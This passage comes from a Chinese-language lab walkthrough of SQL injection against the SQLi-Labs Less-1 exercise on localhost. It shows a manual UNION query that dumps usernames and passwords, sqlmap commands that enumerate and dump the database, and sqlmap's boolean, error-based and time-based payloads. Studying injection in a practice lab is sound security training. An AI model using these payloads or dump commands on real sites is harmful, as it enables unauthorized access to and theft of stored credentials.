 ![image-20201128234755093](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201128234755093.png)

**7.查询数据**

```
http://localhost/sqlilabs/Less-1/?id=-1' union select 1,group_concat(id,0x3a,password,0x3a,username),3 from users--+
```

![image-20201128235121970](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201128235121970.png)



**利用Sqlmap测试**

Sqlmap是检测和利用SQL注入漏洞的一款强大工具。

**1.查询库**

```
python sqlmap.py -u "http://localhost/sqlilabs/Less-1/?id=1" --dbs --batch
```

![image-20201129153523160](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201129153523160.png)

**2.查询表**

```
python sqlmap.py -u "http://localhost/sqlilabs/Less-1/?id=1" -D security --tables --batch
```

![image-20201129154040322](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201129154040322.png)

**3.查询字段**

```
python sqlmap.py -u "http://localhost/sqlilabs/Less-1/?id=1" -D security -T users --columns --batch
```

![image-20201129154015859](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201129154015859.png)

**4.查询数据**

```
python sqlmap.py -u "http://localhost/sqlilabs/Less-1/?id=1" -D security -T users -C id,password,username --dump
```

![image-20201129154914063](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201129154914063.png)



**Sqlmap检测过程中的payload**

```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 6535=6535 AND 'MMEg'='MMEg

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=1' AND EXTRACTVALUE(6529,CONCAT(0x5c,0x7162717a71,(SELECT (ELT(6529=6529,1))),0x7176767a71)) AND 'SxoL'='SxoL

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 9353 FROM (SELECT(SLEEP(5)))yGeE) AND 'aMBL'='aMBL

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
```